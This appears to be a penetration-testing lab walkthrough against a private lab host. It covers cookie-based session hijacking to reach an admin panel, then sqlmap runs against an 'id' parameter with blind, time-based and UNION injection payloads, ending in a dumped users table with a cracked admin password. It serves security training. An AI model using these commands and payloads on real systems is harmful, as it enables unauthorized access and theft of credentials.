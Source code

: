 Download Cookie_manager_plus plugin  
add the cookie, refresh and open click the admin  

Login as admin !!

# SQL Injection
Go to the login page  

Check the Sql injection cheat sheet, search Pentest lab sql injection cheat sheet  
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/  


## Potential Sql injection position:
```
192.168.119.134/post.php?id=3
```
`?id=3`

## Lets try sqlmap first
**not allowed in the exam**  

```
sqlmap -u "192.168.119.134/post.php?id=1"
[15:04:32] [WARNING] GET parameter 'id' does not seem to be injectable
```

or 
```
sqlmap -u "http://192.168.119.134/admin/edit.php?id=1" --cookie=PHPSESSID=79fi4mj2s3lq39p0fmdmnpdpd1
```
if know the cookie
```
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 7510=7510

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5982 FROM (SELECT(SLEEP(5)))lOqF)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-9410 UNION ALL SELECT NULL,NULL,CONCAT(0x7171706a71,0x716c664c74636976635573484b575956527471614e56527a524b527a4a76687a4a78454267716675,0x7171787871),NULL-- -
---
```
Dump the databse:
```
sqlmap -u "http://192.168.119.134/admin/edit.php?id=1" --cookie=PHPSESSID=79fi4mj2s3lq39p0fmdmnpdpd1 --dump
[15:24:33] [INFO] cracked password 'P4ssw0rd' for user 'admin'                                                      
Database: blog                                                                                                      
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```